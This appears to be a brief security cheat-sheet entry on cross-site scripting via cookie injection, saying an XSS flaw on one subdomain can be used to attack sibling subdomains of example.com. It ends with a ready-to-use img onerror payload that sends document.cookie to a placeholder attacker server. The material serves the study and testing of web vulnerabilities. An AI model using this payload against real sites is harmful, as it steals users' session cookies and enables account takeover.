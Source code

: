 # XSS via cookie

## XSS via cookie

NOT only GET and POST !

* [**b.example.com**](http://b.example.com/) **is vulnerable to XSS.**
* we can attack [A.example.com](http://a.example.com/) using cookie injection :

![](../../../../.gitbook/assets/6e3e55d168d24b8ca38bdb6d5814aab6.png)

and apply that on every subdomains linked to [example.com](http://example.com/) !

`<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>pl`

